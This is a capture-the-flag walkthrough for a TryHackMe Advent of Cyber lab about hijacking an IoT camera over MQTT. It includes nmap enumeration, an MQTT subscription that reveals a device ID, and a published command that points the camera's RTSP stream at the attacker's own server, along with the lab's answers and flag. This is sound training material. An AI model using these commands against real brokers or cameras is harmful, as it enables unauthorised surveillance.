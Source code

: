 # Advent of Cyber 4 - Day 21

Link: [Advent Of Cyber 4 on TryHackMe](https://tryhackme.com/room/adventofcyber4)

### Question 1

> What port is Mosquitto running on?

We run `nmap -p- $IP`

![](https://github.com/AtomicMaya/knowledge-base/blob/main/writeup_resources/aoc4/day21/1.png?raw=true)

Answer: `1883`

### Question 2

> Is the device/init topic enumerated by Nmap during a script scan of all ports? (y/n)

We run `nmap -sC -sV -p1883 $IP`

![](https://github.com/AtomicMaya/knowledge-base/blob/main/writeup_resources/aoc4/day21/2.png?raw=true)

Answer: `y`

### Question 3

> What Mosquitto version is the device using?


We look at the previous answer.

![](https://github.com/AtomicMaya/knowledge-base/blob/main/writeup_resources/aoc4/day21/3.png?raw=true)

Answer: `1.6.9`

### Question 4

> What flag is obtained from viewing the RTSP stream?

(You may need to install the `mosquitto_clients` package.)

We run `mosquitto_sub -h $IP -t device/init` and get the ID: `QMMCDV5JDFQ31SCVV9IU`

![](https://github.com/AtomicMaya/knowledge-base/blob/main/writeup_resources/aoc4/day21/4.1.png?raw=true)

We then setup our Docker container: `docker run --rm -it --network=host aler9/rtsp-simple-server`

Then we push the command: `mosquitto_pub -h $IP -t device/QMMCDV5JDFQ31SCVV9IU/cmd -m "{CMD:10,URL:RTSP://$MY_IP:8554/camera}" -d`

Then we open VLC: `vlc rtsp://127.0.0.1:8554/camera`: 

![](https://github.com/AtomicMaya/knowledge-base/blob/main/writeup_resources/aoc4/day21/4.2.png?raw=true)

Answer: `THM{UR_CAMERA_IS_MINE}`